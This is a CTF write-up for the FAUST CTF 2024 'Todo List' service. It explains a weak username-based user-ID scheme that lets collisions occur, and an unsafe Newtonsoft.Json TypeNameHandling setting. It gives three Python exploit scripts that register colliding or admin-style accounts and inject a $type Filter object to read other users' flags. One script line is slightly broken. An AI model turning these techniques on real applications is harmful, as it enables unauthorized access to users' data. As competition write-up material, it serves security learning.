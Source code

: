 ```yaml
---
title: "FAUST CTF 2024 Todo List Writeup"
date: 2024-10-11T06:00:00+02:00
author: "Greenscreener"
tags: [ "writeups" ]
---
```

I participated in this years FAUST CTF, alongside the Czech ECSC team, incognito
with a fake team name: "Team Calabria". I managed to score first blood on one of
the services, this is the writeup.

An extremely feature-rich service written in C# (like srsly, why would you
implement 2FA for an A/D service and then never use it?). We identified two
different vulnerabilities, one based in the generation of user IDs and the other
one caused by an unsafe `Newtonsoft.Json` configuration. The one we found first
and was used for the first blood was the former.

## User ID vulnerability

There is a very wild looking function called `GetUserId`, which is used to
generate an ID that identifies the owner of a TODO. When a TODO is created, the
current user's ID is attached to it and only TODOs matching the current user's
ID are displayed.

The function generates this ID solely from the username and the algorithm to
generate this ID is however extremely bad and collisions can be created very
easily. The username is first lowercased (or uppercased if it is short), then
reversed, all vowels are replaced with asterisks, all asterisks are replaced
with ones and then it is finally reversed again. Each character of the resulting
string is then turned into a number by multiplying the character value by some
constant and the resulting numbers are summed together. The resulting sum is
then turned into a string and used as the ID.

This gives two opportunities for a collision:

1. The following characters: `aeiou*1` are all equivalent and can be freely
   exchanged without changing the resulting user ID.
2. As the numbers are all summed at the end, all characters of the username can
   be reordered freely.
3. (and generally any modification that is preserved in the sum, these are just
   the most obvious)

The first exploit looked something like this:

```python
s = requests.session()
bs = BeautifulSoup(s.get(f"http://[{host}]:8080/Identity/Account/Register", timeout=2).text)
print("Got homepage")
veriftoken = (bs.find('input', {'name': '__RequestVerificationToken'}).get("value"))
s.post(f"http://[{host}]:8080/Identity/Account/Register", data={
    "Input.Email": flag_id.replace("a", "1"),
    "Input.Password": "NoNoNo1!",
    "Input.ConfirmPassword": "NoNoNo1!",
    "__RequestVerificationToken": veriftoken})
print("Registered")
flagtext = (s.get(f"http://[{host}]:8080/Todo/ListTodos").text)
print(flagtext)
```

To make it more robust and resistant to trivial patches and fake flags, we then expanded it:

```python
password = ''.join(random.choice(string.ascii_uppercase + string.digits + string.printable) for _ in range(40))

for c in "a1eioux":
    username = flag_id
    if c == "a":
        username .join([shuf(s) for s in username.split("@")])
    elif c == 'x':
        username = 'admin.' + shuf(username.split("@")[0].split(".")[1]) + "@" + username.split("@")[1]
    else:
        username = flag_id.replace("a", c)
    print(username)
    s = requests.session()
    bs = BeautifulSoup(s.get(f"http://[{host}]:8080/Identity/Account/Register", timeout=2).text)
    print("Got homepage")
    veriftoken = (bs.find('input', {'name': '__RequestVerificationToken'}).get("value"))  # type: ignore
    s.post(f"http://[{host}]:8080/Identity/Account/Register", data={
        "Input.Email": username,
        "Input.Password": password,
        "Input.ConfirmPassword": password,
        "__RequestVerificationToken": veriftoken})
    print("Registered")
    flagtext = (s.get(f"http://[{host}]:8080/Todo/ListTodos").text)
    flagtext = "\n".join([line for line in flagtext.split("\n") if 'FAUST_Q1' in line])
    if "FAUST_Q1" in flagtext:
        print(flagtext)
        return
    flagtext = (s.get(f"http://[{host}]:8080/Todo/Export?format=json").text)
    flagtext = "\n".join([line for line in flagtext.split("\n") if 'FAUST_Q1' in line])
    if "FAUST_Q1" in flagtext:
        print(flagtext)
        return
```

## `TypeNameHandling` vulnerability

The second vulnerability leveraged the `TypeNameHandling` configuration option
of `Newtonsoft.Json`. This configuration option is
[bad](https://stackoverflow.com/questions/39565954/typenamehandling-caution-in-newtonsoft-json)
and is even discouraged by a
[code quality rule](https://stackoverflow.com/questions/39565954/typenamehandling-caution-in-newtonsoft-json)
(which isn't enabled by default though).

The option allows the attacker to include a `$type` property in a JSON object,
which then causes the `Newtonsoft` deserializer to deserialize it as any type
that is available in the current assembly. This poses an obvious code execution
vulnerability, as the attacker can call the constructor or property initializer
of any class. Conveniently, the `Filter` class automatically adds itself into
the database when it's initialized using its `QueryString` property and thus can
be used to add arbitrary filters into the database and we can create a filter
that shows us the TODOs of a different user.

```python
username = f"admin.{randstring(7)}@todo-list-{randstring(7)}.de"
password = ''.join(random.choice(string.ascii_uppercase + string.digits + string.printable) for _ in range(40))

s = requests.session()
bs = BeautifulSoup(s.get(f"http://[{host}]:8080/Identity/Account/Register", timeout=2).text)
print("Got homepage")
veriftoken = (bs.find('input', {'name': '__RequestVerificationToken'}).get("value"))  # type: ignore
s.post(f"http://[{host}]:8080/Identity/Account/Register", data={
    "Input.Email": username,
    "Input.Password": password,
    "Input.ConfirmPassword": password,
    "__RequestVerificationToken": veriftoken})
print("Registered")
bs = BeautifulSoup(s.get(f"http://[{host}]:8080/Identity/Account/Login", timeout=2).text)
veriftoken = (bs.find('input', {'name': '__RequestVerificationToken'}).get("value"))  # type: ignore
s.post(f"http://[{host}]:8080/Identity/Account/Login", data={
    "Input.Email": username,
    "Input.Password": password,
    "__RequestVerificationToken": veriftoken})
print("Loggedin")
filtername = randstring(12)
s.post(f"http://[{host}]:8080/Todo/Import", files={"file": io.StringIO(json.dumps({
    "$type": "service.Models.Filter, service",
    "Id": 0,
    "User": username,
    "Name": filtername,
    "QueryString": "{\"User\":\"" + flag_id + "\", \"Category\": \"\", \"FromTime\": -1, \"ToTime\": -1}",
}))})
flagtext = s.get(f"http://[{host}]:8080/Todo/ApplyFilter?name=" + filtername).text
print(flagtext)
```

